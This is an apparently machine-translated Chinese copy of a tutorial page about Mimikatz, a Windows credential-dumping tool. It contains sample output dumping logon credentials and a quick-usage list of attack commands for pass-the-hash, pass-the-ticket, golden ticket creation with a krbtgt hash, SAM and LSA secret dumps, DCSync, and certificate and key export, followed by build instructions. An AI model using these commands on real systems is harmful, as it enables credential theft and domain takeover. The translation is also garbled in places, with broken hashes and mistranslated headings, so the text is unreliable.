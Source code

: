 # Mimikatz:玩 Windows 安全的小工具

> 原文：<https://kalilinuxtutorials.com/mimikatz-windows-security/>

Mimikatz 是我做的一个工具，用来学习`**C**`和做一些关于 Windows 安全性的实验。

Mimikatz:一个玩 Windows 安全的小工具 Mimikatz 还可以执行传递散列、传递票证或构建金票证。

**mimikatz 2.0 alpha (x86)发布《Kiwi en C》(2014 . 04 . 06 22:02:03)
本杰明·德尔皮**`**gentilkiwi**`**【benjamin@gentilkiwi.com】
http://blog.gentilkiwi.com/mimikatz(OE . EO)
带 13 个模块* * */
mimikatz # Privilege::debug
Privilege ' 20 ' OK
mimikatz # sekurlsa::logon passwords
认证 Id:0；515764 (00000000:0007deb4)
会话:互动自 2
用户名:詹蒂利奇异鸟
域名:VM-w7-ult-x
SID:S-1-5-21-1982681256-1210654043-1600862990-1000
msv:
【00000000000**

**也可理解为-[win pwn:内部 Windows 渗透测试/ AD 安全自动化](https://kalilinuxtutorials.com/winpwn-windows-penetrationtest-ad-security/)**

**快速用法**

**日志
权限::调试**

**塞库尔萨**

**sekurlsa::logon passwords
sekurlsa::tickets/export**
 **sekurlsa::PTH/user:administreur/domain:win XP/NTLM:f193d 757 B4 d 487 ab 7 e5a 3743 f 038 f 713/run:cmd**

**kerberos**

**Kerberos::list/export
Kerberos::PTT c:\ chocolate . kir bi**
 **Kerberos::golden/admin:administrator/domain:chocolate . local/sid:S-1-5-21-2365100805-3685010670/krbtgt:310 b 643 c 5316 c 8 C3 c 70 a 10 CFB 17 e 2e 31/ticket:chocolate**

**密码**

**crypto::capi**
**crypto::CNG**
 **crypto::certificates/export
crypto::certificates/export**
**/SYSTEM STORE:CERT _ SYSTEM _ STORE _ LOCAL _ MACHINE**

**crypto::keys/export**
**crypto::keys/MACHINE/export**

**跳马&跳马**

**vault::cred
vault::list
token::elevate
vault::cred
vault::list
LSA dump::Sam
LSA dump::secrets
LSA dump::cache
token::revert

LSA dump::DC sync/user:domain \ krbtgt/domain:lab . local**

**打造**

`**mimikatz**` 的形式是一个 Visual Studio 解决方案和一个 WinDDK 驱动程序(对于 main 操作是可选的)，所以先决条件是:

*   对于`**mimikatz**`**`**mimilib**`:桌面版 Visual Studio 2010、2012 或 2013(**2013 桌面版 Express 免费，支持 x86&x64**–[http://www.microsoft.com/download/details.aspx?id=44914](http://www.microsoft.com/download/details.aspx?id=44914))**
*   **对于`mimikatz driver`、`mimilove`(以及`ddk2003`平台):Windows 驱动工具包**7.1**(windk)–[http://www.microsoft.com/download/details.aspx?id=11800](http://www.microsoft.com/download/details.aspx?id=11800)**

 **`mimikatz`使用`SVN`进行源代码控制，但是现在`GIT`也可以使用了！你可以使用任何你想同步的工具，甚至包括 Visual Studio 2013 中的`GIT`=)

**构建解决方案**

*   打开解决方案后，`Build` / `Build Solution`(可以改变架构)
*   现在已经建成，可以使用了！(`Win32` / `x64`)
    *   关于`_build_.cmd`和`mimidrv`你可能会有错误`MSB3073`，这是因为没有 Windows 驱动程序包 **7.1** (WinDDK)就无法构建驱动程序，但是`mimikatz`和`mimilib`是可以的。

**ddk2003**

有了这个可选的 MSBuild 平台，您可以使用 WinDDK 构建工具和默认的`msvcrt`运行时(较小的二进制文件，没有依赖性)

对于这个可选平台来说，Windows 驱动工具包**7.1**(windk)–【http://www.microsoft.com/download/details.aspx?id=11800】T2 和 Visual Studio **2010** 是必须的，即使你打算以后使用 Visual Studio 2012 或 2013。

**信用:Benjamin delpy&Vincent le toux**

[**Download**](https://github.com/gentilkiwi/mimikatz)**